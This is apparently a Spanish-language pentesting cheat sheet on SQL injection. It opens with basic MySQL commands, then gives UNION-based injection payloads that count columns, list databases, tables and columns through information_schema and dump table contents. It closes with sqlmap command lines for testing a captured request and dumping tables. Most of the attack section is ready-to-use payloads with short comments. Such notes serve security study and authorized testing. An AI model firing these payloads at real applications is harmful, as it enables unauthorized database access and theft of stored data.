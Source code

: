 # SQL INJECTION

### Comandos Basicos de MySQL

``CREATE DATABASE <NOMBRE_DB>;``

``SHOW DATABASES;``

``USE <NOMBRE_DB>;``

``CREATE TABLE <NOMBRE_TABLA>(COLUMNA1 TIPO, COLUMNA2 TIPO, COLUMNA3 TIPO);``

> Los tipos de campos dentro de las tablas son: int(32) = Numeros Enteros, varchar(32) = Caracteres, char(80), longtext

``SHOW TABLES;``

``DESCRIBE <NOMBRE_TABLA>;`` --> Ver Columnas de una Tabla

``SELECT <COLUMNA1,COLUMNA2> FROM <NOMBRE_TABLA>;`` --> Muestra los datos de una Tabla

``SELECT <COLUMNA1,COLUMNA2> FROM <NOMBRE_TABLA> WHERE <COLUMNA1>='DATO';`` --> Para filtrar por un dato especifico

``SELECT * FROM <NOMBRE_TABLA>;`` --> Muestra todos los datos de una Tabla

``CREATE USER 'NOMBRE'@'IP' IDENTIFIED BY 'PASSWORD';``

``GRANT ALL PRIVILEGES ON NOMBRE_DB.* TO 'USUARIO'@'IP';``

<br>

### Querys para SQL Injection

``valor' ORDER BY 100'-- -`` --> Ayuda a identificar el numero de columnas

``valor' UNION SELECT database()-- -``

``valor' UNION SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata -- -`` --> Si tiene una sola columna

``valor' UNION SELECT GROUP_CONCAT(schema_name), NULL, NULL FROM information_schema.schemata -- -`` --> Si se identifico que tiene varias columnas un NULL por cada columna

``valor' UNION SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema='nombre_db' -- -``

``valor' UNION SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema='nombre_db' AND table_name='tabla' -- -``

``valor' UNION SELECT GROUP_CONCAT(columna) FROM nombre_db.tabla -- -``

<br>

### Injeccion de SQL con SQLMAP

> Para el uso de SQLMAP se puede capturar una peticion POST y guardarla en un archivo .req o identificar los campos inyectables en una url

``sqlmap -r <archivo.req> -p <nombre_payload o campo_inyectable> --batch`` --> Para identificar rapidamente si es inyectable o no

``sqlmap -r <archivo.req> -p <nombre_payload o campo_inyectable> --dbs --batch`` --> Para listar bases de datos

``sqlmap -r <archivo.req> -p <nombre_payload o campo_inyectable> -D <nombre_db> --tables`` --> Para ver las tablas

``sqlmap -r <archivo.req> -p <nombre_payload o campo_inyectable> -D <nombre_db> -T <nombre_tabla> --columns`` --> Para ver las columnas de una tabla

``sqlmap -r <archivo.req> -p <nombre_payload o campo_inyectable> -D <nombre_db> -T <nombre_tabla> -C <col1,col2,col3> --dump`` --> Para volcar todos los campos de una tabla

<br>
